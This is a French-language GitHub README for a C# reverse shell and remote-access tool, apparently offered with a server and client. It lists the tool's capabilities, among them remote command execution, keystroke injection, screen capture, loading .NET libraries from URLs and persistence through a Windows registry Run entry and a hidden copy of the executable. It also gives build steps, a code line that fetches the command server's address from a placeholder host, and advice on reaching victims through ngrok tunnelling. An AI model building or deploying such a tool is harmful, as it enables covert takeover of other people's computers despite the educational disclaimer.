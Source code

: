 # README.MD
### Description du projet

Ce projet est une démonstration d'une reverse shell écrite en C#. Il s'agit d'un outil puissant pour la gestion à distance des systèmes, utilisé à des fins éducatives et de recherche.

#### Points clés du code

1. Connexion réseau : Le code utilise la classe TcpClient pour établir une connexion réseau avec un serveur distant. L'adresse IP et le port du serveur sont récupérés à partir d'un serveur web distant.

2. Cryptographie : Pour assurer la sécurité des communications, le code utilise l'algorithme de hachage SHA256 et un chiffrement XOR ainsi que le chiffrement RSA Pour un chiffrement simple de bout en bout. Les clés sont régénérées à chaque itération pour augmenter la sécurité.

3. Gestion des commandes : Le code est capable de lire les commandes à partir du flux de sortie standard d'un processus et de les envoyer au serveur. Il peut également lire les commandes du serveur et les exécuter sur la machine locale.

4. Fonctionnalités supplémentaires : Le code comprend des fonctionnalités supplémentaires telles que l'envoi de frappes de clavier, l'affichage de boite de messages, l'exécution de commandes de manière asynchrone, la capture d'écran à distance et le chargement de librarie .NET à partir d'URL.

5. Persistante : Le code tente de rendre la reverse shell persistante en ajoutant une entrée au registre Windows pour exécuter le programme au démarrage de la session de l'utilisateur. Il copie également le fichier exécutable dans un répertoire caché.


#### Utilisation
Pour télécharger .Net 7.0 en version portable, voir ici : https://dotnet.microsoft.com/en-us/download/dotnet/thank-you/sdk-7.0.306-windows-x64-binaries

lien directe : https://download.visualstudio.microsoft.com/download/pr/3c443568-43b0-40b1-bb5c-3a6d8cd31876/e7d6c5b176b1c985a5f972dbf2c721b3/dotnet-sdk-7.0.306-win-x64.zip

##### compiler le client : 
Pour commencer, changer l'url à ligne 158 de client\Program.cs
```
string ip_port = new WebClient().DownloadString("https://outofhere.example.repl.co/");  // replace by YOUR WebServer url
```
ensuite compilez le client avec dotnet.exe
```
dotnet.exe publish client.csproj
```
Le binaire en un seul fichier se trouve a l'emplacement suivant : 
```
client\bin\Debug\net7.0-windows\win-x64\publish
```
Puis publier le serveur : 
```
dotnet.exe publish server.csproj
```
Le binaire en un seul fichier se trouve a l'emplacement suivant : 
```
server\bin\Debug\net7.0-windows\win-x64\publish
```
Pour se connecter au serveur depuis un autre reseau que le client, je vous conseille d'utiliser le service de tunneling ngrok et d'ajouter l'addresse IP et le port sur un serveur web avec un domaine fixe (par exemple sur un repl HTML, CSS, JS sur https://replit.com)
// L'addresse IP et le port doivent êtres séparré par deux points uniquement
ex : 
```
1.2.3.4:8080
```
### Démonstration

#### Pour information, les vidéos ont été enregistrées sur la même machine avec la protection en temps réel activée [sans envoyer d'échantillons], mais c'est bien CLIENT.EXE qui effectue les actions.

##### - Reverse Shell Si vous ne le voyez pas : https://github.com/Olivier-true/revserse-shell/blob/main/reverse_shell.gif?raw=true
<img src="https://github.com/Olivier-true/revserse-shell/blob/main/reverse_shell.gif?raw=true">

##### MessageBox et SendKeys
Si vous ne le voyez pas : https://github.0xsql.repl.co/send_keys_and_msgb.gif
<img src="https://github.0xsql.repl.co/send_keys_and_msgb.gif">
Exemple de commande msgb>/Votre Message SKS>/Vos Clés

##### remote-desktop
#### voir dans le repositry : remote-desktop.gif
Pour démarrer le bureau à distance, exécutez server-remote-video.exe dans remote-video\server-remote-video\server\bin\Debug et exécutez la commande sur server.exe : remote-desktop>/:8081

#### Avertissement

Ce projet est publié à des fins éducatives et de recherche. L'auteur n'est pas responsable de toute utilisation abusive de cet outil.
